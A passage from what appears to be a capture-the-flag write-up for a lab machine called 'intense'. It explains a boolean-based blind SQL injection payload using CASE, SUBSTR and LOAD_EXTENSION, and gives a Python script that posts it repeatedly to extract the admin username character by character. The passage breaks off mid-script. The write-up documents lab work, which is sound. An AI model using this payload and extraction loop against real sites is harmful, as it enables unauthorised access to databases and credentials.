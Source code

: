 Calling `lwt.create_session()` with the response:

```python
def create_session(data):
    """ Create session based on dict
        @data: {"key1":"value1","key2":"value2"}

        return "key1=value1;key2=value2;"
    """
    session = ""
    for k, v in data.items():
        session += f"{k}={v};"
    return session.encode()
```

Extracting the admin's `secret` might bring us one step closer to successfully logging in as the admin.

## SQL Injection

As only errors are returned, I originally attempted to trigger my own custom errors. In the end, though, I went for a boolean-based blind SQLi payload.

### Payload Formation

After a big of tampering, I finished on this payload:

```text
yes') UNION SELECT CASE SUBSTR(username,0,1) WHEN 'a' THEN LOAD_EXTENSION('b') ELSE 'yes' END role FROM users--
```

* `CASE` tests the specific thing we give it
* `SUBSTR(username,0,1)` grabs the first character of the username
* `WHEN 'a'` is the other part of `CASE` - if the value, in this case the result of `SUBSTR()` is `a`, it'll then run `LOAD_EXTENSION('b')`. If not, it essentially does nothing.
* `LOAD_EXTENSION('b')` is just there to trigger the error if the first characters is `a` as there is likely to be no extension with the name `b`

### Extracting the admin username

We can assume the username is `admin`, but we should make sure.

We'll loop through `username` with every printable character and see if it matches. Note that it will also match `guest`, so there'll be **two** matches. The way I'll fix this is I'll print it out only if it's not the corresponding letter in the word `guest` and hope there are no common letters, although there's probably a better way.

If we find a match, we add it to the known string and go again.

```python
from requests import post
from string import printable

guest = 'guest_________'        # if len(username) > 5 to get no index errors
name = ""

i = 0

for i in range(10):            # assuming it's a maximum of 10 long
    for char in printable:
        message = f"yes') UNION SELECT CASE SUBSTR(username,{i + 1},1) WHEN '{char}' THEN LOAD_EXTENSION('b') ELSE 'yes' END role FROM users--"

        data = {'message': message}

        r = post('http://intense.htb/submitmessage', data=data)

```